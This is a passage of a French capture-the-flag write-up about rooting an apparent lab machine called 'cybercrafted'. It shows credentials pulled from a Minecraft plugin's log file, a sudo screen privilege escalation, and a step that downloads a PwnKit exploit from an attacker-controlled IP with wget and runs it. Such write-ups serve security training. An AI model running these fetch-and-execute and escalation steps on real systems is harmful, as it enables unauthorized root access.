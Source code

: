 ```
```
## Le plugin !
On retrouve donc le plugin LoginSystem, en farfouillant dedans on retrouve cela :
```
xxultimatecreeperxx@cybercrafted:/opt/minecraft/cybercrafted/plugins/LoginSystem$ cat passwords.yml 
cybercrafted: dcbXXXXXXXXXXXXXXXXXXXX9e
madrinch: 42f7XXXXXXXXXXXXXXXXXXXXXXXX4cafcb
```
Mais aussi, et surtout, les logs !
```
xxultimatecreeperxx@cybercrafted:/opt/minecraft/cybercrafted/plugins/LoginSystem$ cat log.txt
[2021/06/27 11:25:07] [BUKKIT-SERVER] Startet LoginSystem!
[2021/06/27 11:25:16] cybercrafted registered. PW: JXXXXXXXXXXXXXk
[2021/06/27 11:46:30] [BUKKIT-SERVER] Startet LoginSystem!
[2021/06/27 11:47:34] cybercrafted logged in. PW: JXXXXXXXXXXXXXXk
```

On retrouve ici le compte de **cybercrafted** !
# Privesc to root !
On regarde les droits de **cybercrafted**
```
cybercrafted@cybercrafted:~$ sudo -l
[sudo] password for cybercrafted: 
Matching Defaults entries for cybercrafted on cybercrafted:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User cybercrafted may run the following commands on cybercrafted:
    (root) /usr/bin/screen -r cybercrafted
```
On vois ici qu'il peux utiliser **screen** en tant que root.
```
cybercrafted@cybercrafted:~$ sudo /usr/bin/screen -r cybercrafted
```
Ensuite, nous devons utilisez les raccourcis **CTRL+A** afin d'avoir le shell:
```
# id
uid=0(root) gid=1002(cybercrafted) groups=1002(cybercrafted)
```
Le flag ce trouve dans **/root/root.txt**

# CHEAT MOD
Décidement, cette vulnérabilité je l'aime d'amour, elle fonctionne partout !!
```
www-data@cybercrafted:/tmp$ wget 10.14.59.209/PwnKit
--2023-12-04 15:26:47--  http://10.14.59.209/PwnKit
Connecting to 10.14.59.209:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 18040 (18K) [application/octet-stream]
Saving to: 'PwnKit'

PwnKit              100%[===================>]  17.62K  --.-KB/s    in 0.03s   

2023-12-04 15:26:47 (536 KB/s) - 'PwnKit' saved [18040/18040]

www-data@cybercrafted:/tmp$ chmod +x PwnKit 
www-data@cybercrafted:/tmp$ ./PwnKit 
root@cybercrafted:/tmp# 
```
